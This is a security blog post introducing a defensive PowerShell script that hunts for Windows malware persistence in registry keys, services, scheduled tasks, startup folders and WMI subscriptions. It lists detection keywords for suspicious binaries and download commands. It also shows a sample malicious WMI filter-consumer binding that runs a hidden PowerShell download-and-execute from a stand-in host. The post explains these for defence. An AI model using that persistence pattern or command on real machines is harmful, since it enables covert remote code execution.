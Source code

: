 ```yaml
---
layout: post
title:  "Powershell For Checking Malware Persistence (mega script)"
date:   2025-06-16 21:00:00 +1000
categories: project
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview
[-----Malware Persistence Checker-----](https://github.com/lvl0socanalyst/Scripts/blob/main/malware_persistence_checker.ps1)

Script that checks for common malware persistence vectors.

Useful when performing analysis on a potentially compromised PC that has been disconnected from the internet. 

Rather than post the whole script I'll just run over and explain the functions/how to use it. 

I'll slowly add function by function. But I'll start with reg keys. Couldn't you just use autoruns? YES. But that's no fun.

Potentially suspicious findings will be dumped in CLI. All results will be whacked into a .txt file
- Therefore, if you don't like the regex or what is marked as 'suspicious' you can change it. Or just view the .txt to see the full output

Script gives the following options:
1. Scan Registry Persistence Keys
2. Scan Service Keys
3. Scan Scheduled Tasks
4. Scan Startup Folders
5. Scan WMI Event Subscriptions
6. Scan Everything 
7. Exit

![PowerShell Script Options](/images/script_photo.PNG)

### Potentially suspicious indicators

The script outputs all results to a .txt file. However, entries that seem suspicious are plastered onto the CLI. These are the following indicators I came up with for files/commands/flags that can raise a red flag.

Indicators
- ```"AppData", "Temp", "Roaming", "LocalLow", "Public", "Users\\Public", "\.vbs", "\.js", "\.bat", "\.cmd", "\.ps1", "\.scr", "wscript.exe", "cscript.exe", "powershell.exe", "mshta.exe", "rundll32.exe", "cmd.exe", "System32\\Tasks", "Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved", "curl.exe", "wget.exe", "base64", "Invoke-", "DownloadString", "EncodedCommand" ```


### Registry and Windows Service Keys

Registry keys are fileless. Hence why they a common spot for malware payloads to exist. Payloads stored in reg keys are often called later by scheduled tasks or WMI events. 

A malicious registry payload would typically call powershell to download or invoke a payload.

Checks the following registry keys
- HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
- HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Service keys are also checked for the above indicators. 
- HKLM:\SYSTEM\CurrentControlSet\Services


### Scheduled Tasks
Malware will often create a scheduled task to run at a certain time to give persistence on the host device. This ensures even after a restart or shutdown the beacon can be reinstated.

Scans all scheduled tasks that don't have \Microsoft\ in the path.

Pretty popular persistence vector however is quite well known. One of the first SIEM rules you create should be for alerting on schtasks.exe usage or for tasks here that aren't known.


### Startup Folders
Files that reside here are executed on startup. Much like scheduled tasks a very common area for malware to reside to ensure persistence after a restart/shutdown.

The following startup folders are checked
- AppData\Microsoft\Windows\Start Menu\Programs\Startup
- ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Malicious files that are set to start on boot here are often named as legitimate Microsoft files and LOLBINs to avoid suspicion.


### WMI Event Subscription
WMI subscriptions allow for commands to trigger when a system event occurs. Likewise to reg entries this method is fileless and quite a common method for persistence for more advanced malware.

WMI subscriptions use WQL (Windows Management Instrumentation Query Language) to create conditions on which they should trigger and the action that will occur. WQL uses very similar syntax to SQL, and reads almost like pseudocode. 

An example of a malicious WMI subscription that was used by CozyBear (APT 29).

-----Sets the condition for which the action is triggered (creation of a filter)-----
- ```Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"```

-----Sets the action when the filter is triggered (creation of a consumer)-----
- ```CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http:cozynoobs.com/minecraft.ps1')"```

-----Binds filter to the consumer (creates condition that runs consumer when filter occurs)
- ```Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter.__PATH Consumer = $consumer.__PATH }```

That was a very dumbed down version of the actual event subscription used. But you get the idea of how it is structured. A filter is created which in turn when triggered runs the consumer (action) that runs the suspicious commands.

The following subscriptions are checked
- Get-WmiObject -Namespace root\subscription -Class __EventFilter
- Get-WmiObject -Namespace root\subscription -Class __EventConsumer
- Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding